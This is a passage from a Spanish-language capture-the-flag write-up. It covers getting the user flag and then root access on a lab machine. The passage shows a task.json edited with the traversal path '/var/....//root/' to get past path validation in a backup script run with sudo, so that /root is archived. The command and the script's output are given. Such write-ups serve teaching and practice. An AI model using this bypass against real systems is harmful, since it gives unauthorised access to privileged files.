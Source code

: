 Dentro del backup se encuentra el archivo `home/app-production/user.txt` que contiene la **user flag**.

```

## 6. Escalada de Privilegios – Obtención de la Root Flag

Para obtener la flag de root, modificamos el fichero `task.json` para respaldar el contenido del directorio `/root/` mediante un bypass en la validación de rutas.

### 6.1. Modificar task.json para Respaldo de Root

Editamos el fichero `task.json` para que quede de la siguiente manera:

```json
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/var/....//root/"
  ]
}
``` 

> **Explicación:**  
> Se utiliza la ruta `/var/....//root/` en lugar de la secuencia típica `../../root/` para evadir controles de validación y lograr incluir el directorio `/root/` en el backup.

### 6.2. Ejecutar el Script de Backup para Root

Ejecutamos:

```bash
sudo /usr/bin/backy.sh task.json
``` 

**Salida:**

```bash
2025/04/12 17:21:10 🍀 backy 1.2
2025/04/12 17:21:10 📋 Working with task.json ...
2025/04/12 17:21:10 💤 Nothing to sync
2025/04/12 17:21:10 📤 Archiving: [/var/../root]
2025/04/12 17:21:10 📥 To: /home/martin ...
2025/04/12 17:21:10 📦
``` 

Se genera un nuevo backup (por ejemplo, `code_var_.._root_2025_April.tar.bz2`) en el directorio `/home/martin/`.

### 6.3. Descargar y Extraer el Backup de Root

Nos movemos al directorio home y listamos los archivos:

```bash
cd ~
ls
``` 
